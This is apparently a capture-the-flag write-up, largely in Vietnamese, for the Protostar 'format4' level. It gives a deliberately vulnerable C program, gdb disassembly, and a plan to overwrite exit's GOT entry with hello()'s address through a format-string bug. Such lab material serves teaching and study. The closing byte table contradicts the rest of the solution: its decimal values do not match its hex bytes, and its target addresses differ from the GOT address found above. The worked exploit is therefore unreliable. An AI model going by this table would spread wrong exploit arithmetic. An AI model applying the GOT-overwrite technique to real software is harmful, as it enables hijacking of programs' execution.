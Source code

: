 # FORMAT FOUR

## About

format4 looks at one method of redirecting execution in a process.

Hints:

  * objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT FOUR` cho chúng ta thấy được khi overwrite everywhere sử dụng format string được ghi vào những vị trí chuyển hướng thực thi trong chương trình sẽ giúp chúng ta điều khiển luồng thực thi chương trình thực thi theo ý ta muốn.

Thử thách này hoàn thành khi ta in ra được dòng chữ `"code execution redirected! you win"` nhưng lại không hề có điều kiện hay chỗ nào gọi đến hàm `hello()` trong hai hàm mà chương trình sẽ thực thi là `vuln()` và `main()`.

Ý tưởng của bài này là sẽ ghi đè địa chỉ hàm `hello()` lên địa chỉ của hàm `exit(1)` được lưu trong `GOT - Global Offset Table` để khi thoát hàm `vuln()` chương trình sẽ chuyển hướng thực thi tới `hello()` thay vì gọi hàm `exit(1)` và thoát chương trình.

Địa chỉ hàm `hello()`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) set disassembly-flavor intel
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>
```

Tiếp theo là địa chỉ trong `GOT` nơi chứa địa chỉ của `exit(1)`. Bạn có thể đọc hiểu rõ hơn về `GOT` và `PLT` ở tài liệu tôi để ở `Documents`. 

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) x/2i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>: push   0x30
(gdb)
```

Vậy là `GOT của exit(1) = 0x8049724`.

```
                 1      2      3
hex     | \xb4 | \x84 | \x04 | \x08 |
decimal |  68  |  85  |  258 |  513 |
Đã có   |  16  |  68  |  85  |  258 |
Cần     |  52  |  17  |  173 |  255 |
para    |  12  |  13  |  14  |  15  |
Addr:
0x80496xx| f4  |  f5  |  f6  |  f7  |

```

## Documents

<https://www.exploit-db.com/papers/13203>



